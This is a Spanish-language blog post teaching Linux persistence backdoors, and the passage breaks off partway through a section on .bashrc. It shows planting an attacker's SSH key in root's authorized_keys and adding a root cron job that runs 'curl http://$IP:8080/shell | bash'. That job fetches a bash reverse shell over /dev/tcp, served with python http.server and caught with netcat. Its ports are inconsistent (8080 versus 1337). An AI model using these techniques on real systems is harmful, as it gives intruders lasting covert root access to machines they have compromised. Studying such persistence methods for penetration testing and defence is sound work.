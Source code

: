 ```yaml
---
title: Accesos no autorizados en Linux - Info
published: true
---
```


# [](#header-1)Introducción
Este post está dedicado para aprender técnicas comunes para puertas traseras en linux. Basicamente un backdoor es algo que podemos hacer para garatizarnos de poder acceder al sistema de manera constante. Aunque la máquina se apague o se reinicie podremos seguir teniendo acceso.

Obviamente esto no es una vulnerabilidad, si no que son técnicas para mantenernos con acceso al objetivo.
## [](#header-2) Puertas traseras en SSH
Esta es nuestra primera técnica que veremos, ssh backdoors.
Principalmente, esto consiste en dejar nuestras llaves ssh en el directorio de inicio de un usuario. En la mayoría de casos, el directorio sería en el de root. ¿Por qué? Porque es el usuario con mayores privilegios. Para poder hacer eso, tenemos que crear un conjunto de llaves ssh con el comando `ssh-keygen`.

> ![image](https://github.com/cerodah/blog/assets/82907557/2dfda856-50c8-4627-a567-7928c02a7abe)

Ahora que tenemos la llave publica y la privada podemos dejarla en /root/.ssh. No olvides cambiar el nombre de la llave publica, normalmente tiene como extension `.pub`, a authorized_keys. Si el directorio no existe, simplemente crealo con `mkdir -p /root/.ssh`. El parametro `-p` asegurará que se cree el directorio ".ssh" en root y si existe, no generará ningún error por pantalla.

Lo más seguro es que tenga que otorgar los permisos necesarios a la llave privada para que la llave sea accesible solamente para el propietario y nadie más (además ssh se quejará si no lo hacemos...). Con el comando `chmod 600 id_rsa` se hace.
Hay que tener algo que en cuenta. Este "backdoor" no está oculto en absoluto, ya que cualquier usuario con permisos necesarios podrá eliminar tanto nuestra llave pública (authorized_keys) como nuestra llave privada!
## [](#header-2) Puertas traseras en Cronjobs
Ahora que hemos visto una técnica, ¿por qué no pasar a la otra?. Este método consiste en crear una tarea. 
En Linux las cronjobs (trabajos cron) son tareas programadas que se ejecutan automáticamente a intervalos especificados por el usuario. Como dato, este término se denomina así ya que viene de un servicio de planificación de tareas en sistemas de tipo Linux y Unix.
Esto es bastante útil ya que se puede aprovechar para hacer backups cada x tiempo, actualizaciones y ejecuciones de scripts. 

Ese archivo se encuentra en la ruta `/etc/crontab` y si miramos lo que hay, seguramente encuentre algo parecido a esto: 
> ![image](https://github.com/cerodah/blog/assets/82907557/23133ff3-c9c6-4e36-a98c-1a33759a9a4b)

Una vez que haya obtenido acceso a cualquier host podrá usted mismo agregar su propia tarea.
Si mira bien puede ver que está el simbolo (*) presente al lado del numero 17, esto significa que la tarea se ejecutará cada hora. Pues bien , para aprovecharnos podemos agregar esta linea a nuestro archivo cronjob
```bash
* *     * * *   root    curl http://$IP:8080/shell | bash
```
Si se fija he puesto varios "*". ¿Por qué? Así, le estamos diciendo que queremos que nuestra tarea se ejecute cada minuto. (cada minuto de cada hora, todos los días, todos los meses y todos los días de la semana). Despues indicamos al usuario en el que se ejecutará la tarea, en este caso, es root. Después con curl realiazamos una petición HTTP a la URL "http://$IP:1337/shell" y finalmente con la tubería (|) pasamos la salida de curl como entrada de bash. Dentro de el archivo shell esta este código.
```bash
#!/bin/bash
bash -i >& /dev/tcp/ip/puerto 0>&1
```
Para que esto funcione el archivo debe de ser cargado en algún sitio en este caso usaremos python.
```python
python3 -m http.server 8080
```
Tampoco olvides estar escuchando por el puerto 1337 con netcat.
> ![image](https://github.com/cerodah/blog/assets/82907557/3a314627-6f1e-4323-b000-98e5914e05af)

Como se puede observar en la terminal derecha, al estar esperando un minuto a llegado momento en el que el archivo crontab haga su trabajo y nos de una sesión como root! 

## [](#header-3) Puerta trasera en ".bashrc"
¿Cómo? Un backdoor en el archivo de configuración de bash. ¡Sí!
En la mayoría de sistemas Linux y Unix, por defecto la shell predeterminada es la de bash. En esta shell, encontramos su archivo de configuración (~/.bashrc) y es el que se ejecuta cada vez que se inicia una sesión interactiva.
Podemos ejecutar este comando el cual ejecutamos una instancia interactiva y posteriormente rediriccionamos la entrada y salida de bash hacia un socket de red


